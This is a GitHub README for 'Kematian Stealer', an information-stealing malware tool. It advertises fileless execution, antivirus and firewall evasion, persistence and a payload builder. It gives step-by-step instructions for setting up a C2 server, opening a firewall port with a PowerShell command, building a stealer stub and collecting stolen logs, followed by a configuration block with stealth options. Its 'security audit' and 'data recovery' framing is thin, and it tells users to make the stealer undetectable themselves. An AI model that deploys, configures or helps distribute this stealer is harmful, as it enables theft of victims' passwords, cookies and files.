 This tool is particularly advantageous for accessing application and file data without restrictions, while evading conventional security measures such as `firewalls` and `antivirus` software, thanks to its `fileless capabilities`, which set it apart from other stealers. Upon execution, Kematian Stealer creates a `mutex` on the system and designates the process as `critical` before initiating data exfiltration, ensuring smooth and uninterrupted transmission of data.

Moreover, the tool has robust `persistence mechanisms` to remain active on the machine after reboot. Additionally, its user-friendly web-based `GUI builder` simplifies the process of creating payloads, enhancing its accessibility and usability.
<br>

# Use Cases

- **Security Audits**: For ethical hackers or system administrators to test the security and data exposure of local systems.
- **Data Recovery**: Assists in recovering lost passwords, cookies and other crucial data for legitimate purposes without dropping compiled binaries on disk.

> [!TIP]
> Please refrain from opening issues related to detections, as it is pointless. This project's objective is to facilitate teaching and learning. If you need a FUD stealer, simply create one or REFUD it yourself. 

# Usage
## Setup Instructions And Video Guide Below 
<a href="https://devs.sped.lol/kematian-stealer"><img src="https://img.shields.io/badge/GitBook-6A6965?style=for-the-badge&logo=gitbook&logoColor=white"></a>
<a href="https://youtu.be/k-vastcKfwY"><img src="https://img.shields.io/badge/YouTube-FF0000?style=for-the-badge&logo=youtube&logoColor=white"></a>
- Download [Builder](https://github.com/Pirate-Devs/Kematian/releases/download/AutoBuild/main.exe) from the releases.
- The builder will automatically generate your `private key` and `certificate` at first run, you can find them here `$env:appdata\Kematian-Stealer`
- After opening the builder, it will also start a local server which will run on `https://127.0.0.1:8080` by default.
- Open your web browser and go to `https://127.0.0.1:8080/builder`
- Input your C2 server in the `TCP TUNNEL URL:PORT` section
- Open the port in `Windows Firewall` for receiving logs 
```ps1
New-NetFirewallRule -DisplayName "KematianC2" -Direction Inbound -Protocol TCP -LocalPort 8080 -Action Allow
```
- Next, activate the checkboxes for the features you want to include in the stub.
- Finally hit build and the output stub will be placed in the same folder with the builder
- Your logs will be saved here : `$env:appdata\Kematian-Stealer\logs`
 
 > [!NOTE]   
 > **THE DEBUG OPTION IS FOR TESTING PURPOSES ONLY**

### Configurations
```ps1
$c2_server = "YOUR_URL_HERE_SERVER" 
$debug = $false
$blockhostsfile = $false
$criticalprocess = $false
$melt = $false
$fakeerror = $false
$persistence = $false
$write_disk_only = $false
$vm_protect = $false
$encryption_key = "YOUR_ENC_KEY_HERE"
```
